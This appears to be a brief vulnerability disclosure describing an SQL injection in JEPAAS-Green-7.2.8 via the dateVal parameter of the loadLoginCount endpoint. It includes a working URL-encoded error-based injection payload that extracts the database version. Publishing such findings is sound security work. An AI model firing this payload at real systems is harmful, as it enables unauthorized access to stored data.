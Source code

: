 SQL injection vulnerability in JEPAAS-Green-7.2.8, via /je/rbac/rbac/loadLoginCount in the dateVal parameter, which could allow a remote user to submit a specially crafted query, allowing an attacker to retrieve all the information stored in the DB.

**payload:**
```
queryType=DAY&dateVal=1%27+and+1%3D%28updatexml%281%2Cconcat%280x7e%2C%28select+version%28%29%29%2C0x7e%29%2C1%29%29+and+%271%27%3D%271
```
![f3a88861020e467029b218560e6aa290.png](../../_resources/f3a88861020e467029b218560e6aa290.png)